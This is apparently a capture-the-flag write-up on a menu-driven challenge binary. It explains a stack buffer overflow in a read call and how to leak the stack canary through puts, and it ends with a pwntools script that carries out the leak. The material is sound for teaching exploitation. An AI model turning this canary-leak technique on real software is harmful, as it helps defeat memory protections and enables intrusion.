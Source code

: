 So we can see that the binary gives us a menu with three options. The first appears to just scan input into memory. The second options appears to print out the data scanned into memory by the first option. The third option appears to just exit the binary.

Now that we have a basic understanding of what the binary does, and when we throw it in IDA we can see the following line of code under case 1 (the option where we scan in data into memory):

```
read_result = read(0, &input_buf, 0xF8uLL);
```

So we can see it is scanning in `0xf8` bytes into `input_bof`. When we look at the size of `input_buf` we can see that it only holds `0xa8` bytes. So we have a basic buffer overflow vulnerabillity here. However as soon as we start overflowing `input_bof`, we start overwriting the Stack Canary stored directly after that. So we need to leak the Stack Canary.

Looking at the case 2 (the second option from the elf) we can see what prints out our info:

```
puts(&input_buf);
``` 

So we can see that it prints out the memory that we scanned in using puts. Luckily for us, puts will print out all data untill it reaches a null terminator. What we can do, is we can fill our buffer up untill the stack canary, then print out our input. Stack canaries are null terminated, and because of how puts will print out the data (least significant byte first) we will need to overwrite the null terminator (which is the least significant byte of the canary) so puts doesn't stop at the null byte and not print out the stack canary. We should overwrite this byte with the newline chracter which is appended by the read call. 

When we do this, we will get the last seven bytes of the canary (the eighth byte is the null byte, so we know it and don't need to leak it) and other data untill there so happens to be a null byte. Because of the newline character, the canary will be on a line after the filler input, but we can just take that line, scan in the first seven bytes, append a null terminator to the end and we will have the canary.

Here is the code to leak the canary:

```
#Import pwntools
from pwn import *

#Establish the target process, and attack gdb
target = process("./svc")
#gdb.attach(target)

#Specify that the menu option to scan in data into memory
print target.recvuntil(">>")
target.sendline('1')
print target.recvuntil(">>")

#Send the payload, which will allow us to leak the canary
leak_payload = "0"*0xa8
target.sendline(leak_payload)
print target.recvuntil(">>")

#Select the second option, to print out our input and leak the canary
target.sendline('2')
print target.recvuntil("[*]PLEASE TREAT HIM WELL.....")
print target.recvline()
print target.recvline()
print target.recvline()

#Scan in, parse out, unpack, and print the stack canary
leak = target.recvline()
print len(leak)
canary = u64("\x00" + leak[0:7])
log.info("The Stack Canary is: " + hex(canary))

```